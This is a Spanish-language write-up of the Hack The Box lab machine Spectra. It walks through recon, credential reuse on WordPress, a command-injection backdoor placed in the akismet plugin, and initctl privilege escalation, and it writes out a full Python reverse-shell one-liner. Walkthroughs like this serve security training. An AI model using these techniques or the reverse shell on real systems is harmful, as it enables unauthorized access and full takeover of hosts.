Spectra¶
Escaneo de puertos¶
Uso de nmap para escaneo de puertos por atravez de protocolos TCP

Escaneo de servicios en puertos descubiertos¶
En el paso anterior descubrimos 3 puertos abiertos que consecuentemente deben ser analizados atravez de scripts basicos de reconocimiento (-C) junto a las versiones usadas por estos servicios (-V)

Enumeracion de Web¶
Visitamos la pagina y revisamos que encontramos

Listado de directorios¶
En el paso anterior encontramos dos rutas, la que dice test nos lleva a un index.php, pero al borrar en la url index.php notamos que tenemos acceso a listar todo lo existente en el directorio /testing


Descubrimiento de credenciales¶
En el archivo que fue guardado por nano podemos encontrar credenciales al verlo atraves de la fuente de la pagina (Ctrl + u)

Resolucion estatica¶
Al pasar el mouse encima de "Software Issue Tracker" vemos que nos lleva a spectra.htb pero debemos agregar esa ruta a nuestro /etc/hosts para resolver el dominio
Enumeracion de wordpress¶
Ahora una vez resuelto el dominio spectra.htb podemos ver una pagina de wordpress donde encontramos 1. Un usuario llamado administrator 2. Una ruta que no lleva al panel de login

Re-uso de credenciales¶
Una vez en el panel de login usaremos el usuario "administrator" con la contrasena encontrada anteriormente "devteam01" Para consiguientemente darl click en "Remind me later"

Injeccion remota de comandos¶
Una vez logueados como admin en el panel de control nos dirijimos a Plugin Editor para editar el pluging llamado akismet.php donde agregaremos la siguiente linea para aplicar un RCI (Remote Code Injection)

URL Revershell¶
Una vez editado y actualizado el plugin akismet.php
1. Nos ponemos en escucha con ncat -nlvp 4444
2. Nos dirigmos a la ruta del plugin editado http://spectra.htb/main/wp-content/plugins/akismet/akismet.php
3. Agregamos el parametro que llama a la injecion en la url ?cmd=
4. y seguido en la url agregamos la revershell donde debes cambiar el campo
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<TU IP>",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

Archivos criticos¶
Una vez logueados como el usuario nginx vemos en la ruta /opt/ un archivo llamado "autologin.conf.orig" que toma un contrasena que se aloja en "/etc/autologin"

Password¶
Enumeracion de privilegios¶
- Hacemos uso de sudo -l para ver a que binario tenemos permiso de usar con permisos de root
- Usamos el comando id para saber a que grupos pertenecemos
- Y al ver que tenemos acceso al binario initctl y hacemos parte del grupo developers buscamos de forma recursiva por archivos que pertenezcan al grupo developers y encontramos tareas usadas con el initctl

Init explotation¶
De los archivos encontrados anteriormente podemos tomar cualquiera para el siguiente paso, pero para este ejercicio tomaremos test9.conf, lo abrimos con nano y agregaremos una linea al archivos para que cuando iniciemos la tarea como root usando initctl se ejecute el comando que estamos injectando como root que en este caso sera cambiar los permisos de /bin/bash

Escalacion de privilegios¶
Una vez modificado el test9.conf 1. Guardamos el archivo 2. Verificamos los permisos 3. Iniciamos el test9 como root 4. Verificamos que los permisos de /bin/bash hayan sido modificados 5. Una vez verificado nos logueamos como root usando bash -p

Thanks for reading! Follow me on my socials: